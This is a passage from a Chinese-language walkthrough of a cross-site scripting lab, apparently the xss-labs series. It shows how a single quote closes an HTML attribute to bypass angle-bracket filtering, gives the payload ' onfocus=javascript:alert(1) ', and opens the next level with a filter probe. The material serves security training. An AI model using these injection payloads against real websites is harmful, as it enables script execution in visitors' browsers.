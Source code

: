 这样就可以绕过 过滤 <>

那我们如何执行呢

```cobol
我们输入一个 ' 时

变成了下面这个
value="" '="">
 
 
 
我们输入 'abcd'
 
变为了
 
value="" abcd''="">
 
 
我们输入 payload
 
' onfocus=javascript:alert(1) ' 
 
就会变为
 
value=""  onfocus=javascript:alert(1) '' ="">
 
从而实现了闭合
```

所以最终payload

```csharp
' onfocus=javascript:alert(1) '
```

## Level4   【过滤><】

我们首先可以判断是否存在过滤

```xml
'"&<>
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/810affe6ab0f7f4359dfca319909fb82.png" alt="" style="max-height:293px; box-sizing:content-box;" />


发现只有3个了 过滤了 <>

用上题目的payload

```csharp
' onfocus=javascript:alert(1) '
```

失效了
